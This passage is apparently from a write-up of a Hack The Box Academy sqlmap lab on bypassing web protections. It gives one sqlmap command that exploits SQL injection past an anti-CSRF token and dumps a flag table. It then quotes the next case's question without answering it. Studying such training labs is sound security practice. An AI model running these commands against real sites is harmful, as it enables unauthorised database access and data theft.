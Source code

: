![sqlmap-columns](/images/sqlmap-columns.png)  

>[Question - Bypassing Web Application Protections](https://academy.hackthebox.com/module/58/section/530)  

>What's the contents of table flag8? (Case #8)
>Detect and exploit SQLi vulnerability in POST parameter id, while taking care of the anti-CSRF protection (Note: non-standard token name is used)

![sqlmap csrf token bypass](/images/sqlmap-csrf-token-bypass.png)  

```
sqlmap -r case8.req --batch -p "id" --csrf-token="t0ken" -dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast
```  

>What's the contents of table flag9? (Case #9)
>Detect and exploit SQLi vulnerability in GET parameter id, while taking care of the unique `uid` random values.  
